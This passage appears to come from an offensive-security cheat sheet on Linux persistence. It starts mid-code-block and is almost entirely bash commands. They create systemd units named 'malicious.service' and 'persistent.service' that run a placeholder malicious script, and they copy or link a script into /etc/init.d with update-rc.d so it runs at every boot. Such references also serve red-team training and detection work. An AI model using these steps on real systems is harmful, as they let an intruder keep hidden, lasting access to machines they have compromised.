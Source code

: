	[Install]
	WantedBy=multi-user.target
	EOF'
	sudo systemctl enable persistent.service
	sudo systemctl start persistent.service
	```
- **Or** :
	```bash
	echo "[Unit]
	Description=Malicious Service
	
	[Service]
	ExecStart=/path/to/malicious_script
	
	[Install]
	WantedBy=multi-user.target" | sudo tee /etc/systemd/system/malicious.service
	sudo systemctl enable malicious.service
	sudo systemctl start malicious.service
	```

#### Enable Service to Start on Boot
- **Enable Service to Start at Boot:**
	```bash
	systemctl enable persistent.service
	```
 - **Start Service immediately:**
	```bash
	systemctl start persistent.service
	```

# System Boot Script Persistence
The `init` system (on systems that don't use `systemd`) is responsible for bootstrapping the Linux environment. Modifying system boot scripts like `/etc/init.d/`, `/etc/rc.d/`, or `/etc/rc.local` ensures that malicious scripts run on system startup.

#### Create Custom `init.d` Script
- **Create Custom Init Script:**
	```bash
	sudo cp /path/to/malicious_script.sh /etc/init.d/
	sudo chmod +x /etc/init.d/malicious_script.sh
	sudo update-rc.d malicious_script.sh defaults
	```

#### Inject into `init.d`
- **Link a malicious script to `init.d`, enabling it to run at boot:**
	```bash
	ln -s /path/to/malicious_script.sh /etc/init.d/malicious
	```
- **Configure the script to start automatically during system boot:**
	```bash
	update-rc.d malicious defaults
	```
